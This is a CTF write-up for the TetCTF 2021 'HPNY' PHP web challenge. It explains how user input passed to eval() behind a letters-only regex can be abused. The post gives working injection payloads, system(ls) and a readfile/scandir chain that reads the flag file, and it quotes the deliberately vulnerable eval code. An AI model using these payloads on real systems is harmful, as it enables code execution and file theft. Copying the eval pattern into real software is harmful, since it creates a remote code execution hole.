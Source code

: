 ```yaml
---
title: "Reading files in PHP without numbers, quotes, spaces and most other symbols"
excerpt: "Writeup for the HPNY Web chall from [TetCTF 2021](https://ctftime.org/event/1213)."
date: 2021-01-04T16:23:30-03:00
categories:
  - Cybersecurity
tags:
  - Web
  - PHP
  - TetCTF 2021
  - CTF
---
```


This chall had a page that allowed a user to get a "happy new year" phrase in different languages, as well as getting a lucky number. The user could choose which function he wanted by passing it as a query parameter in the URL. The PHP code was given:

```php
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>
```

For example, if the user wanted a lucky number: http://139.180.155.171:8003/?roll=get_lucky_number

As can be seen in the code, the "value" parameter is passed to `eval()`, which is a good indicator of a code execution vulnerability. The problem is the regex that comes just before is filtering a lot of characters from the input. So the payload cannot have numbers, spaces, quotes, and most other symbols. Only letters, parenthesis, underscores, and dots were allowed.

## The solution

At first, I thought there would be a way to bypass the regex in a way that I could use the forbidden characters. I achieved it by transforming the "roll" parameter in an array: `http://139.180.155.171:8003/?roll[]="som3 payload"`. This payload bypassed the regex. However, the `eval()` just printed `Array` on the screen, and I could not find a way to use the content inside the array. It was a dead end.

Next, I got some code execution with `roll=system(ls)`, which returned the content of the directory in the server:

```
fl4g_here_but_can_you_get_it_hohoho.php
index.php
```

I don't know why it worked without wrapping `ls` in quotes, but ok. Now I had another problem: how to read the file, as it has a number in its name. Also, without using quotes.

After a lot of time, I got this solution: `roll=readfile(next(array_reverse(scandir(__DIR__))))`. What it is doing is:

- `__DIR__`: It's a string that contains the path of the current directory. Same thing as `getcwd()`.
- `scandir(__DIR__)`: Returns an array where each entry is the name of a file in the `__DIR__` folder.

This looks great. However, `scandir(__DIR__)` returned the following array: `array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(39) "fl4g_here_but_can_you_get_it_hohoho.php" [3]=> string(9) "index.php" }` (can be checked with the payload `roll=var_dump(scandir(__DIR__))`). The file with the flag is the penultimate element of the array. How can I get this specific element in the array without using `[]`?

- `array_reverse(scandir(__DIR__))`: I reverse the array, so now the file is the second element, not the penultimate anymore.
- `next(array_reverse(scandir(__DIR__)))`: This got the second element of the array as a string.
- `readfile(next(array_reverse(scandir(__DIR__))))`: Finally, I could read the file content!

```
<?php

$flagsssssssss = "TetCTF{lixi_50k_<3_vina_*100*25926415724382#}";

?>
```

Really nice challenge. Kudos to the creator.
